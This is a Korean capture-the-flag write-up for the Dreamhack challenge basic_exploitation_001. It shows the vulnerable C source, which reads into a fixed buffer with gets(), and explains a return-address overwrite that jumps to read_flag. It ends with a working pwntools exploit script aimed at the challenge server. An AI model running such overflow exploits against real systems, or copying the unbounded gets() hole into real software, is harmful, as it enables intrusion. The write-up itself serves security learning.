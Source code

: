 ## 📍basic_exploitation_001

```
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.  
프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.  
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.  
플래그의 형식은 DH{...} 입니다.
```

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```


### 소스코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
	
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {
    char buf[0x80];
    initialize();
    gets(buf);
    return 0;
}
```

![](../../Attachments/8C48088D-2EA8-4291-9662-01C8E1925881.png)

![](../../Attachments/6B5CA851-367C-469D-A02D-8A4961104865.png)

`read_flag` 함수의 시작 주소: `0x080485b9`

`gets` 함수에서 입력의 크기를 제한하고 있지 않기 때문에 버퍼 오버플로우 공격이 가능하다.
128바이트의 버퍼와 4바이트의 EBP(Extended Base Pointer)를 더미 데이터로 채우고, 그 이후 호출된 위치로 돌아갈 때 RET로 `read_flag` 함수의 시작 주소를 주면 `read_flag` 함수를 실행할 수 있다.


`$ python3 be1.py`

```python
from pwn import *

conn = remote('host3.dreamhack.games', 11943)

payload = b'A' * 0x84
payload += p32(0x080485b9)

conn.sendline(payload)

conn.interactive()
```

![](../../Attachments/6C625355-E5B7-438B-A7AB-7D20F3DB1A8E.png)

🚩